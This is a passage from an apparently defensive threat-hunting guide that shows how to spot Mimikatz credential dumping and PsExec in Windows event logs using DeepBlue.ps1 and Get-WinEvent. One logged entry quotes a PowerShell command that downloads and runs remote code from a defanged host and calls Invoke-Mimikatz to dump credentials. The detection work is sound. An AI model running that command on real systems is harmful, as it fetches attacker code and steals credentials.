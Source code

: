 ```
        Token Elevation Type:   TokenElevationTypeFull (2)
        Creator Process ID:     0xf14
        Process Command Line:   powershell.exe  "IEX (New-Object Net.WebClient).DownloadString('hxxp://eic[.]me/17'); Invoke-Mimikatz -DumpCreds"
```

## Hunting Mimikatz `lsadump::sam`

|Event|Command|
|-----|-------|
|Mimikatz `lsadump::sam`|`.\DeepBlue.ps1 .\evtx\mimikatz-privesc-hashdump.evtx`|

```
Date    : 4/30/2019 11:08:29 AM
Log     : Security
EventID : 4673
Message : Sensititive Privilege Use Exceeds Threshold
Results : Potentially indicative of Mimikatz, multiple sensitive privilege calls have been made.
          Username: Sec504
          Domain Name: SEC504STUDENT
```
```
PS > Get-WinEvent -FilterHashtable @{Path=".\evtx\powersploit-security.evtx",".\evtx\mimikatz-privesc-hashdump.evtx"; id=4673} | fl

TimeCreated  : 4/30/2019 11:08:29 AM
ProviderName : Microsoft-Windows-Security-Auditing
Id           : 4673
Message      : A privileged service was called.

               Subject:
                Security ID:            S-1-5-21-2977773840-2930198165-1551093962-1000
                Account Name:           Sec504
                Account Domain:         SEC504STUDENT
                Logon ID:               0x1E3DD

               Service:
                Server: Security
                Service Name:   -

               Process:
                Process ID:     0x15a8
                Process Name:   C:\Tools\mimikatz\mimikatz.exe

               Service Request Information:
                Privileges:             SeTcbPrivilege
```

## Hunting PsExec

PsExec, part of the SysInternals Suite, is one of the common lateral movement tools, which provides the capability to execute remote commands. Due to the way that PsExec works, we can utilize the following Event IDs to hunt for it:
